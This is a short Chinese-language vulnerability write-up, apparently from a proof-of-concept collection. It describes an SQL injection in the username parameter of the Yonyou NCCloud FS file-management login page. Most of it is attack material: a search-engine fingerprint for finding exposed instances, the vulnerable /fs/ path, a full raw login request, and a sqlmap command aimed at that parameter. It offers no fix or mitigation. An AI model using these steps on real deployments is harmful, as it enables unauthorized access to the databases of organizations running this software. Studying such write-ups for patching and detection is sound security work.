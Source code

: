 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

```
用友 NCCloud
```

## 网络测绘

```
"NCCloud"
```

## 漏洞描述

登录页面如下

![yongyou-6-1](images/yongyou-6-1.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```

![yongyou6-2](images/yongyou6-2.png)

登录请求包如下

```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![yongyou-6-3](images/yongyou-6-3.png)